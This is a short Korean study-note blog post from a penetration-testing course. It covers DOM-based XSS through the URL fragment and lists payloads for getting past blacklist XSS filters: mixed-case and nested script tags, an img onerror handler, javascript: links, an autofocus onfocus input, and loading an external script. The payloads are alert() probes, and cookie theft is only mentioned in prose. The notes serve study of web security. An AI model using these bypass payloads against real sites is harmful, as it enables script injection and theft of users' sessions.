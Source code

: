 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily

title: "[TIL] DOM Based XSS, 블랙 리스트 기반 필터링 우회"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-26
last_modified_at: 

tags: [TIL]
---
```


DOM Based XSS:
https://example.com/search=test#abracadabra
\# 이후에는 주소에는 남아있지만 서버에 요청 처리는 되지 않습니다
\#을 이용해 DOM Based XSS를 공격할 수 있다고 합니다.
https://blog.outsider.ne.kr/698

Cookie Steal
www.google.com과 www.naver.com의 쿠키는 다르다.
그 URL에서 XSS 취약점이 존재해야 쿠키값을 가져올 수 있다.

post method로 데이터를 날릴 방법도 있다.
이미지 태그를 이용한 방법 말고도 무슨 방법이 있을까?

---
## 블랙 리스트 기반 필터링 우회

글자 수 제한일 때
`<script src = "외부 js"></script>`로 외부 script를 챙겨올 수 있다

script를 공백으로 바꿀 때
`<ScRiPt></ScRiPt>`: 대소문자를 섞는다
`<scrscriptipt></scrscriptipt>`

script를 xcript로 바꿀 때
`<img src=. onerror="alert(1)">`
event handler 이용: onload, onclick, onmouseover, onfocus
href 이용: <a href="javascript:alert(1)">test</a>

<, >가 치환될 경우
`<script></script>`가 이미 존재하는 경우: 태그 안에 코드 작성

```
<script>
    let data = "___";
</script>
```

input XSS
`<input type="text" autofocus onfocus="___.js">`

XSS bysheet cheat list